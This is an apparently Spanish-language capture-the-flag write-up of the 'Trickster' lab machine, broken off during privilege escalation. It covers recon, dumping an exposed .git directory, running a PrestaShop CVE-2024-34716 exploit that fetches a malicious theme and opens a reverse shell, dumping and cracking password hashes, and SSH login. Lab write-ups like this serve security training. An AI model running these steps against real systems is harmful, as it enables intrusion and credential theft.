









## Reconocimiento

Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```console
nmap -p- --min-rate 5000 -sVC -Pn -n 10.10.11.34 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-31 18:07 CET
Nmap scan report for 10.10.11.34
Host is up (0.058s latency).
Not shown: 64707 closed tcp ports (reset), 826 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:01:0e:7b:b4:da:b7:2f:bb:2f:d3:a3:8c:a6:6d:87 (ECDSA)
|_  256 90:c6:f3:d8:3f:96:99:94:69:fe:d3:72:cb:fe:6c:c5 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://trickster.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: _; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Nota:** Enumeramos el dominio *trickster.htb*, insertamos en nuestro fichero *hosts*.

Accedemos al sitio web de *trickster.htb* en el puerto 80, enumeramos un sitio web corporativo:


En los diferentes apartados, enumeramos el subdominio *shop.trickster.htb:*


Accedemos a la web de compras, identificamos rápidamente las tecnologías desplegadas y un *Prestashop*, aunque **Wappalyzer** no proporciona la versión de este.


Utilizamos la herramienta **dirsearch**, encontramos la exposición del directorio *.git*:
```console
dirsearch -u http://shop.trickster.htb -x 404

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Documents/Trickster/reports/http_shop.trickster.htb/_25-01-31_18-24-39.txt

Target: http://shop.trickster.htb/

[18:24:39] Starting: 
[18:24:42] 403 -  283B  - /aspx.bak
[18:24:42] 403 -  283B  - /js.bak
[18:24:42] 403 -  283B  - /%2e%2e;/test
[18:24:42] 403 -  283B  - /jsp.bak
[18:24:42] 403 -  283B  - /php.old
[18:24:42] 403 -  283B  - /%C0%AE%C0%AE%C0%AF
[18:24:42] 403 -  283B  - /html.old                                         
[18:24:42] 403 -  283B  - /aspx.old             
<SNIP>
18:24:47] 200 -   20B  - /.git/COMMIT_EDITMSG                              
[18:24:48] 200 -   73B  - /.git/description                                 
[18:24:48] 200 -  413B  - /.git/branches/                                   
[18:24:48] 200 -  246KB - /.git/index
[18:24:48] 200 -  460B  - /.git/info/
[18:24:49] 200 -  240B  - /.git/info/exclude                                
[18:24:49] 200 -  112B  - /.git/config
[18:24:48] 200 -   28B  - /.git/HEAD
[18:24:49] 301 -  333B  - /.git/logs/refs  ->  http://shop.trickster.htb/.git/logs/refs/
[18:24:49] 301 -  339B  - /.git/logs/refs/heads  ->  http://shop.trickster.htb/.git/logs/refs/heads/
[18:24:50] 200 -  694B  - /.git/hooks/                                      
[18:24:50] 200 -  163B  - /.git/logs/HEAD
[18:24:51] 301 -  333B  - /.git/refs/tags  ->  http://shop.trickster.htb/.git/refs/tags/
[18:24:50] 301 -  334B  - /.git/refs/heads  ->  http://shop.trickster.htb/.git/refs/heads/
[18:24:51] 200 -  613B  - /.git/
[18:24:50] 200 -  491B  - /.git/logs/
[18:24:51] 200 -  462B  - /.git/refs/                                      
```

Utilizamos la herramienta git-dumper y extraemos los ficheros:
```console
git-dumper http://shop.trickster.htb .
Warning: Destination '.' is not empty
[-] Testing http://shop.trickster.htb/.git/HEAD [200]
[-] Testing http://shop.trickster.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://shop.trickster.htb/.git/ [200]
[-] Fetching http://shop.trickster.htb/.gitignore [404]
[-] http://shop.trickster.htb/.gitignore responded with status code 404
[-] Fetching http://shop.trickster.htb/.git/logs/ [200]
[-] Fetching http://shop.trickster.htb/.git/HEAD [200]
[-] Fetching http://shop.trickster.htb/.git/index [200]
[-] Fetching http://shop.trickster.htb/.git/COMMIT_EDITMSG [200]
[-] Fetching http://shop.trickster.htb/.git/branches/ [200]
[-] Fetching http://shop.trickster.htb/.git/hooks/ [200]
[-] Fetching http://shop.trickster.htb/.git/description [200]
[-] Fetching http://shop.trickster.htb/.git/config [200]
[-] Fetching http://shop.trickster.htb/.git/info/ [200]
[-] Fetching http://shop.trickster.htb/.git/refs/ [200]
[-] Fetching http://shop.trickster.htb/.git/info/exclude [200]

<SNIP>
ls -lna
total 236
drwxrwxr-x 5 1000 1000   4096 Jan 31 18:31 .
drwxrwxr-x 4 1000 1000   4096 Jan 31 18:27 ..
drwxrwxr-x 8 1000 1000   4096 Jan 31 18:31 admin634ewutrx1jgitlooaj
-rw-rw-r-- 1 1000 1000   1305 Jan 31 18:31 autoload.php
-rw-rw-r-- 1 1000 1000   2506 Jan 31 18:31 error500.html
drwxrwxr-x 7 1000 1000   4096 Jan 31 18:31 .git
-rw-rw-r-- 1 1000 1000   1169 Jan 31 18:31 index.php
-rw-rw-r-- 1 1000 1000   1256 Jan 31 18:31 init.php
-rw-rw-r-- 1 1000 1000    522 Jan 31 18:31 Install_PrestaShop.html
-rw-rw-r-- 1 1000 1000   5054 Jan 31 18:31 INSTALL.txt
-rw-rw-r-- 1 1000 1000 183862 Jan 31 18:31 LICENSES
-rw-rw-r-- 1 1000 1000    863 Jan 31 18:31 Makefile
-rw-rw-r-- 1 1000 1000   1538 Jan 31 18:31 .php-cs-fixer.dist.php
```

En el listado, evidenciamos el directorio *admin634ewutrx1jgitlooaj* donde está ubicado el panel de control de **Prestashop**, accedemos a él y logramos encontrar la versión 8.1.5:


Visualizamos la lista de logs, encontramos solo uno de una actualización sobre el panel del administrador, aunque no encontramos nada útil, a excepción del usuario *Adam*:
```console
git log                                          
commit 0cbc7831c1104f1fb0948ba46f75f1666e18e64c (HEAD -> admin_panel)
Author: adam <adam@trickster.htb>
Date:   Fri May 24 04:13:19 2024 -0400

    update admin pannel


git show 0cbc7831c1104f1fb0948ba46f75f1666e18e64c
commit 0cbc7831c1104f1fb0948ba46f75f1666e18e64c (HEAD -> admin_panel)
Author: adam <adam@trickster.htb>
Date:   Fri May 24 04:13:19 2024 -0400

    update admin pannel

diff --git a/.php-cs-fixer.dist.php b/.php-cs-fixer.dist.php
new file mode 100644
index 0000000..4f6c2eb
--- /dev/null
+++ b/.php-cs-fixer.dist.php
@@ -0,0 +1,52 @@
+<?php
+
+ini_set('memory_limit','256M');
+
+$finder = PhpCsFixer\Finder::create()->in([
+    __DIR__.'/src',
+    __DIR__.'/classes',
+    __DIR__.'/controllers',
+    __DIR__.'/tests',
+    __DIR__.'/tools/profiling',
+])->notPath([
+    'Unit/Resources/config/params.php',
+    'Unit/Resources/config/params_modified.php',
+]);
```

Buscando información en internet sobre la versión de **Prestashop**, encontramos la siguiente información sobre el *CVE-2024-34716* y un exploit:
- [https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-34716](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-34716)
- [https://github.com/aelmokhtar/CVE-2024-34716](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-34716)

## Explotación
Ejecutamos el exploit, esperamos unos segundos y lograremos acceso a la máquina:
```console
python3 exploit.py --url http://shop.trickster.htb --email adam@trickster.htb --local-ip 10.10.14.152 --admin-path admin634ewutrx1jgitlooaj
[X] Starting exploit with:
        Url: http://shop.trickster.htb
        Email: adam@trickster.htb
        Local IP: 10.10.14.152
        Admin Path: admin634ewutrx1jgitlooaj
[X] Ncat is now listening on port 12345. Press Ctrl+C to terminate.
Serving at http.Server on port 5000
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:12345
Ncat: Listening on 0.0.0.0:12345
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
Request: GET /ps_next_8_theme_malicious.zip HTTP/1.1
Response: 200 -
10.10.11.34 - - [31/Jan/2025 19:00:58] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
Request: GET /ps_next_8_theme_malicious.zip HTTP/1.1
Response: 200 -
10.10.11.34 - - [31/Jan/2025 19:01:03] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
Ncat: Connection from 10.10.11.34:58190.
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 18:01:14 up  4:53,  1 user,  load average: 0.38, 0.27, 0.29
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
james    pts/0    10.10.16.60      18:00   60.00s  0.03s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
$ uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Leemos el fichero *parameters.php* y encontramos las credenciales de la base de datos de **Prestashop**:
```php
$ cat parameters.php
<?php return array (
  'parameters' => 
  array (
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => '**************',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
    'mailer_transport' => 'smtp',
    'mailer_host' => '127.0.0.1',
    'mailer_user' => NULL,
    'mailer_password' => NULL,

```

Accedemos **MariaDB** con las credenciales anteriores, logramos extraer dos credenciales de la base de datos:
```console
MariaDB [prestashop]> select email,passwd from ps_employee;
+---------------------+--------------------------------------------------------------+
| email               | passwd                                                       |
+---------------------+--------------------------------------------------------------+
| admin@trickster.htb | $2y$10$$*************************dlB/C |
| james@trickster.htb | $2a$04$****************************Cmm |
+---------------------+--------------------------------------------------------------+
2 rows in set (0.000 sec)

MariaDB [prestashop]> 
```
Con la ayuda de **john** y **rockyou**, logramos crackear el hash del usuario *james*:
```console
john james.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**************** (?)     
1g 0:00:00:06 DONE (2025-01-31 19:16) 0.1564g/s 5797p/s 5797c/s 5797C/s ayana..alkaline
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Reutilizamos las credenciales sobre el servicio **SSH**, logramos acceder y leer la flag de usuario:
```console
ssh james@trickster.htb                 
james@trickster.htb's password: 
Last login: Fri Jan 31 18:00:47 2025 from 10.10.16.10
james@trickster:~$ id
uid=1000(james) gid=1000(james) groups=1000(james)
james@trickster:~$ ls
user.txt
james@trickster:~$ cat user.txt 
**********************
```

## Escalada de privilegios
Lanzamos el script de reconocimiento **lse.sh**, identificamos **Google Chrome** instalado en el directorio *opt*:
```console
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/snap/snapd/21759/usr/lib/snapd/snap-confine
/opt/google/chrome/chrome-sandbox
```

Nos dirigimos al directorio *opt*, encontramos una carpeta del software **PrusaSlicer**, esto es un software utilizado en impresoras 3D, enumeramos la versión *2.6.1*:
```console
james@trickster:/opt/PrusaSlicer$ ls -lna
total 82196
drwxr-xr-x 2 0 0     4096 Sep 13 12:24 .
drwxr-xr-x 5 0 0     4096 Sep 13 12:24 ..
-rwxr-xr-x 1 0 0 84018368 Sep  6  2023 prusaslicer
-rw-r--r-- 1 0 0   138526 May 23  2024 TRICKSTER.3mf
james@trickster:/opt/PrusaSlicer$ ./prusaslicer --version
Unknown option --version

PrusaSlicer-2.6.1+linux-x64-GTK2-202309060801 based on Slic3r (with GUI support)
https://github.com/prusa3d/PrusaSlicer

Usage: prusa-slicer [ ACTIONS ] [ TRANSFORM ] [ OPTIONS ] [ file.stl ... ]
```

Buscando exploits sobre él, encontramos un exploit que nos permitiría ejecutar código arbitrario:
- [PrusaSlicer 2.6.1 - Arbitrary code execution](https://www.exploit-db.com/exploits/51983)

Según la prueba de concepto, necesitamos modificar el fichero *Slic3r_PE.config*, lo buscamos por el sistema, pero parece que no tenemos visibilidad a él desde nuestro usuario:
```
james@trickster:/opt/PrusaSlicer$ find / -name Slic3r_PE.config 2>/dev/null
james@trickster:/opt/PrusaSlicer$ 
```

Listamos los puertos utilizados en la máquina y vemos varias conexiones sobre el puerto 5000 sobre la IP *172.17.0.2*:
```console
james@trickster:/$ netstat -putona
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:46319         0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          127.0.0.1:53170         TIME_WAIT   -                    timewait (11.72/0/0)
tcp        0      0 127.0.0.1:3306          127.0.0.1:53118         TIME_WAIT   -                    timewait (10.94/0/0)
tcp        0      0 172.17.0.1:41240        172.17.0.2:5000         TIME_WAIT   -                    timewait (26.89/0/0)
tcp        0      0 172.17.0.1:42156        172.17.0.2:5000         TIME_WAIT   -                    timewait (1.10/0/0)
tcp        0      0 127.0.0.1:46794         127.0.1.1:80            TIME_WAIT   -                    timewait (12.65/0/0)
tcp        0      0 127.0.0.1:38173         127.0.0.1:52016         TIME_WAIT   -                    timewait (12.72/0/0)
tcp        0      0 172.17.0.1:42212        172.17.0.2:5000         TIME_WAIT   -                    timewait (1.02/0/0)
<SNIP>
```

Revisamos las interfaces de red, y vemos que hay un docker corriendo con la IP *172.17.0.1*, por lo que deberíamos de tener visibilidad a la *172.17.0.2*:
```console
james@trickster:/$ ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:f3:b0:5a:2e  txqueuelen 0  (Ethernet)
        RX packets 10586  bytes 14335676 (14.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 14580  bytes 4537864 (4.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.34  netmask 255.255.254.0  broadcast 10.10.11.255
        ether 00:50:56:94:91:17  txqueuelen 1000  (Ethernet)
        RX packets 563137  bytes 124917397 (124.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 476267  bytes 301430324 (301.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1704921  bytes 2198430971 (2.1 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1704921  bytes 2198430971 (2.1 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth85c5e62: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        ether 42:9d:08:0f:45:43  txqueuelen 0  (Ethernet)
